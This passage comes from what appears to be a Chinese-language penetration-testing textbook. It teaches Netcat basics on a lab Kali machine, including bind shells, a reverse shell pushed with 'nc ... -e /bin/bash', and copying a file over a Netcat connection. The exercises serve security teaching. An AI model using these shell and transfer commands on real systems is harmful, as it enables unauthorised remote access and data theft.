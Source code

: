 再次使用第二个终端窗口连接到 Netcat 监听器。

```
root@kali:~# **nc 192.168.20.9 1234**
whoami
root
```

现在，你可以发出 Linux 命令让 Netcat 监听器执行。`whoami` Linux 命令会告诉你当前登录的用户。在这种情况下，因为 Netcat 进程是由 *root* 用户启动的，所以你的命令将以 *root* 用户的身份执行。

### 注意

这是一个简单的例子，因为你的 Netcat 监听器和连接都在同一系统上。你也可以使用你另外的虚拟机，甚至是你的宿主系统来进行这个练习。

再次关闭两个 Netcat 进程。

### 将命令行 Shell 推送回监听器

除了在端口上监听命令行 Shell，你还可以将命令行 Shell 推送回 Netcat 监听器。这次设置 Netcat 监听器时不使用 `-e` 标志，如下所示。

```
root@kali:~# **nc -lvp 1234**
listening on [any] 1234 ...
```

现在打开第二个终端，并像这里所示的那样，重新连接到你刚刚创建的 Netcat 监听器。

```
root@kali:~# **nc 192.168.20.9 1234 -e /bin/bash**
```

按照平常的方式使用 Netcat 进行连接，但这次使用 `-e` 标志在连接上执行 */bin/bash*。回到第一个终端，你会看到如下面所示的连接，如果你输入终端命令，你会看到它们被执行。（我们将在第四章中学习更多关于在本地端口上监听 */bin/bash* 和通过连接主动推送 */bin/bash*，分别被称为 *bind shells* 和 *reverse shells*。）

```
listening on [any] 1234 ...
connect to [192.168.20.9] from (UNKNOWN) [192.168.20.9] 51921
whoami
root
```

现在，Netcat 还有一个功能。这次，不是将进入监听器的数据输出到屏幕，而是使用 `>` 将其发送到文件中，如下所示。

```
root@kali:~# **nc -lvp 1234 > netcatfile**
listening on [any] 1234 ...
```

在第二个终端中，你设置了 Netcat 进行连接，但这次你使用了 `<` 符号来告诉它通过 Netcat 连接发送一个文件（*myfile*）的内容。给 Netcat 几秒钟的时间来完成，然后检查由你第一个 Netcat 实例创建的文件 *netcatfile* 的内容。其内容应该与 *myfile* 完全相同。

```
root@kali:~# **nc 192.168.20.9 1234 < mydirectory/myfile**
```

你已经使用 Netcat 转移了文件。在这个例子中，我们只是将文件从一个目录转移到另一个目录，但你可以想象，这种技术可以用来在系统之间转移文件——这是渗透测试后期阶段，获得系统访问权限后的常用技术。

## 使用 cron 任务自动化任务
